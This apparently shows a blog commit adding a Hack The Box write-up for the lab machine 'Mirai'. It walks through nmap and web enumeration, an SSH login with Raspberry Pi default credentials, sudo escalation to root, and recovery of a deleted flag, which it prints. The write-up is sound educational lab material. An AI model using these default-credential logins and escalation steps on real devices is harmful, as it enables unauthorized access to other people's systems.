

Before and after one commit to GeorgeWere/georgewere.github.io, a Jekyll site: the page built from index.markdown, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
mirai writeup

````diff
--- /dev/null
+++ b/_posts/2023-10-02-htb-mirai.md
@@ -0,0 +1,298 @@
+---
+layout: post
+title: "HTB: MIRAI (10.10.10.48)"
+description: "Mirai is an easy linux box from hack the box hosting a plex media server and running raspberry pi OS. The raspberry has its default credentials still intact. To escalate privileges, the user pi has the ability to execute sudo commands as root without needing any additional credentials. While this may seem straightforward, there's a twist. The root.txt flag isn't readily available in the root directory. Instead, you have to retrieve the deleted flag from a USB drive attached to the box."
+tags: [Mirai, HTB, hackthebox, data recovery, raspberry pi, default credentials, plex, Strings]
+image: "/assets/img/mirai/feature.png"
+---
+## RECON
+### Nmap
+
+As always we start off with the recon and enumeration process to get an overview of our attack surface and target's running service.
+
+```sh
+# Nmap 7.93 scan initiated Mon Oct  2 06:58:37 2023 as: nmap -p- --min-rate 10000 -oA nmap/allports 10.10.10.48
+Warning: 10.10.10.48 giving up on port because retransmission cap hit (10).
+Nmap scan report for 10.10.10.48
+Host is up (0.57s latency).
+Not shown: 56709 closed tcp ports (reset), 8821 filtered tcp ports (no-response)
+PORT      STATE SERVICE
+22/tcp    open  ssh
+53/tcp    open  domain
+80/tcp    open  http
+1993/tcp  open  snmp-tcp-port
+32400/tcp open  plex
+
+# Nmap done at Mon Oct  2 07:00:54 2023 -- 1 IP address (1 host up) scanned in 136.62 seconds
+
+
+# Nmap 7.93 scan initiated Mon Oct  2 07:08:32 2023 as: nmap -sC -sV -p22,53,80,1993,32400 -oA nmap/mirai 10.10.10.48
+Nmap scan report for 10.10.10.48
+Host is up (0.31s latency).
+
+PORT      STATE SERVICE VERSION
+22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
+| ssh-hostkey:
+|   1024 aaef5ce08e86978247ff4ae5401890c5 (DSA)
+|   2048 e8c19dc543abfe61233bd7e4af9b7418 (RSA)
+|   256 b6a07838d0c810948b44b2eaa017422b (ECDSA)
+|_  256 4d6840f720c4e552807a4438b8a2a752 (ED25519)
+53/tcp    open  domain  dnsmasq 2.76
+| dns-nsid:
+|_  bind.version: dnsmasq-2.76
+80/tcp    open  http    lighttpd 1.4.35
+|_http-server-header: lighttpd/1.4.35
+|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
+1993/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
+32400/tcp open  http    Plex Media Server httpd
+|_http-cors: HEAD GET POST PUT DELETE OPTIONS
+|_http-title: Unauthorized
+|_http-favicon: Plex
+| http-auth:
+| HTTP/1.1 401 Unauthorized\x0D
+|_  Server returned status 401 but no WWW-Authenticate header.
+Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
+
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+# Nmap done at Mon Oct  2 07:09:08 2023 -- 1 IP address (1 host up) scanned in 36.14 seconds
+```
+
+Given the [OpenSSH Version](https://launchpad.net/debian/+source/openssh/1:6.7p1-5+deb8u4) The box is probably running debian 8 jesse.
+
+### Port enumeration
+
+#### TCP Port 53 (DNS)
+
+When DNS listens on `TCP` it is usually to facilitate `zone transfer`
+
+Without a valid `hostname` or `domain name` I couldint do a `zone` transfer. I tried guesing from the box name but none worked.
+
+
+```sh
+┌─[george@parrot]─[~/HTB/boxes/mirai]
+└──╼ $ dig axrf @10.10.10.48 mirai.htb
+
+; <<>> DiG 9.18.16-1~deb12u1~bpo11+1-Debian <<>> axrf @10.10.10.48 mirai.htb
+;; global options: +cmd
+;; Got answer:
+;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 16250
+;; flags: qr rd ra ad; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 0
+
+;; QUESTION SECTION:
+;axrf.                          IN      A
+
+;; Query time: 203 msec
+;; SERVER: 10.10.10.48#53(10.10.10.48) (UDP)
+;; WHEN: Wed Oct 04 05:13:14 EAT 2023
+;; MSG SIZE  rcvd: 22
+
+;; Got answer:
+;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 23761
+;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1
+
+;; OPT PSEUDOSECTION:
+; EDNS: version: 0, flags:; MBZ: 0x0005, udp: 4096
+;; QUESTION SECTION:
+;mirai.htb.                     IN      A
+
+;; Query time: 4013 msec
+;; SERVER: 192.168.252.2#53(192.168.252.2) (UDP)
+;; WHEN: Wed Oct 04 05:13:18 EAT 2023
+;; MSG SIZE  rcvd: 38
+```
+
+`nslookup` also doesnt tell me much.
+
+```sh
+┌─[✗]─[george@parrot]─[~/HTB/boxes/mirai]
+└──╼ $ nslookup
+> server 10.10.10.48
+Default server: 10.10.10.48
+Address: 10.10.10.48#53
+> localhost
+;; communications error to 10.10.10.48#53: timed out
+Server:         10.10.10.48
+Address:        10.10.10.48#53
+
+Name:   localhost.localdomain
+Address: 192.168.204.129
+;; communications error to 10.10.10.48#53: timed out
+;; communications error to 10.10.10.48#53: timed out
+;; communications error to 10.10.10.48#53: timed out
+;; no servers could be reached
+
+> 127.0.0.1
+;; communications error to 10.10.10.48#53: timed out
+1.0.0.127.in-addr.arpa  name = localhost.
+>
+```
+
+#### Port 80
+
+Visiting the page, I see a blank page.
+
+![Blank Page](/assets/img/mirai/blank_page.png)
+
+I proxy the request to `BurpSuite` and note a farmilia header `X-Pi-hole` which is a `DNS sinkhole` porpulary associated with `raspberry pi`. I'll note that and use it for later.
+
+![Burp Suite](/assets/img/mirai/xpi.png)
+
+#### Directory Bruteforce
+
+I will fire gobuster and bruteforce for directories
+
+```sh
+┌─[✗]─[george@parrot]─[~/HTB/boxes/mirai]
+└──╼ $ gobuster dir -u http://10.10.10.48/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
+===============================================================
+Gobuster v3.1.0
+by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
+===============================================================
+[+] Url:                     http://10.10.10.48/
+[+] Method:                  GET
+[+] Threads:                 10
+[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
+[+] Negative Status codes:   404
+[+] User Agent:              gobuster/3.1.0
+[+] Timeout:                 10s
+===============================================================
+2023/10/04 03:47:10 Starting gobuster in directory enumeration mode
+===============================================================
+/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
+/versions             (Status: 200) [Size: 18]
+```
+`gobuster` Finds two directories and then errors out.
+
+#### /admin
+
+Admin page redirects to a `Pi-hole` dashboard page.
+
+![Admin Page](/assets/img/mirai/admin.png)
+
+Also there is a 'login' page but I dont have any credentials to try out. All default credentials dont work.
+
+![Login Page](/assets/img/mirai/login.png)
+
+#### TCP Port 32400
+
+Visiting this page I come across login page for [Plex Server](https://www.plex.tv/media-server-downloads/).
+
+![Plex Login](/assets/img/mirai/plex_index.png)
+
+`Plex Server` is a media server kind of like `netflix` where you set up a server and just upload your media be it movies,series or music and create accounts for people you want to share with to access.
+
+I will register for an account and log in. Nothing intresting so far except for the settings page where I get a version number. The version doesnt do much as I am unable to find an exploit.
+
+![Version](/assets/img/mirai/plex.png)
+
+## Shell as pi
+
+#### Mirai
+
+According to [Cloud Flare](https://www.cloudflare.com/learning/ddos/glossary/mirai-botnet/), `Mirai` is a malware that scans the Internet for IoT devices that run on the ARC processor. This processor runs a stripped-down version of the Linux operating system. If the default username-and-password combo is not changed, Mirai is able to log into the device and infect it.
+
+IoT, short for Internet of Things, is just a fancy term for smart devices that can connect to the Internet. These devices can be baby monitors, vehicles, network routers, agricultural devices, medical devices, environmental monitoring devices, home appliances, DVRs, CC cameras, headset, or smoke detectors.
+
+#### Default credentials
+
+The default credentials for `raspberry pi` is `pi` and `raspberry`. I will try this out and guess what, we are in
+
+```sh
+┌─[george@parrot]─[~/HTB/boxes/mirai]
+└──╼ $ ssh pi@10.10.10.48
+pi@10.10.10.48's password:
+
+The programs included with the Debian GNU/Linux system are free software;
+the exact distribution terms for each program are described in the
+individual files in /usr/share/doc/*/copyright.
+
+Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
+permitted by applicable law.
+Last login: Sun Aug 27 14:47:50 2017 from localhost
+
+SSH is enabled and the default password for the 'pi' user has not been changed.
+This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.
+
+
+SSH is enabled and the default password for the 'pi' user has not been changed.
+This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.
+
+pi@raspberrypi:~$
+```
+
+## Shell as root
+
+### Enumeration
+
+Since we have credentials, we can check our `sudo` privileges.
+
+```sh
+pi@raspberrypi:~$ sudo -l
+Matching Defaults entries for pi on localhost:
+    env_reset, mail_badpass,
+    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
+
+User pi may run the following commands on localhost:
+    (ALL : ALL) ALL
+    (ALL) NOPASSWD: ALL
+```
+
+At this point I thought wow that was pretty simple. Let me grab the root file and call it a day. Oh how wrong I was.
+
+```sh
+root@raspberrypi:~# cat root.txt
+I lost my original root.txt! I think I may have a backup on my USB stick...
+```
+### Recovering Deleted data
+
+`USB` mount on Linux are usually in `/media`. Using `lsblk` I can see the raw device is in `/dev/sdb`
+
+```sh
+root@raspberrypi:/# lsblk
+NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
+sda      8:0    0   10G  0 disk
+├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
+└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
+sdb      8:16   0   10M  0 disk /media/usbstick
+sr0     11:0    1 1024M  0 rom
+loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
+```
+The directory has a single file `./damnit.txt` and an empty `./lost+found`.
+
+#### Using strings
+
+The strings command looks for printable strings in an object or binary file. A string is any sequence of 4 or more printable characters that end with a new-line or a null character. The strings command is useful for identifying random object files.
+
+I will use `strings` to try and find if I can see any since I know the flag is a string.
+
+```sh
+root@raspberrypi:/home/pi# strings /dev/sdb
+>r &
+/media/usbstick
+lost+found
+root.txt
+damnit.txt
+>r &
+>r &
+/media/usbstick
+lost+found
+root.txt
+damnit.txt
+>r &
+/media/usbstick
+2]8^
+lost+found
+root.txt
+damnit.txt
+>r &
+3d3e483143ff12ec505d026fa13e020b
+Damnit! Sorry man I accidentally deleted your files off the USB stick.
+Do you know if there is any way to get them back?
+-James
+```
+
+This is just one of the ways to recover the flag.
+
+And thats the box. Thank you all for taking your time to read my blog post, stay tuned for the next!
+
+Happy hacking!
--- a/assets/custom.css
+++ b/assets/custom.css
@@ -1,3 +1,4 @@
+/* Special thanks to 0xdf for assisting with the customization. twitter @0xdf_*/
 .tag-list:before{content:"\1f3f7";font-size:1.7em;}
 .tag-list {word-spacing:10px; margin:0px; padding:0px;}
 .post-meta {line-height:11px}
--- a/assets/main.css
+++ b/assets/main.css
@@ -1,3 +1,4 @@
+/* Special thanks to 0xdf for assisting with the customization. twitter @0xdf_*/
 /* a dark, off-black for the bg */
 /* an off-white for the text */
 /* for the border-top separators */
````
Also changed, not shown: assets/bootstrap-toc.min.css, assets/img/mirai/admin.png (added), assets/img/mirai/blank_page.png (added), assets/img/mirai/feature.png (added), assets/img/mirai/login.png (added), assets/img/mirai/plex.png (added), assets/img/mirai/plex_index.png (added), assets/img/mirai/xpi.png (added).
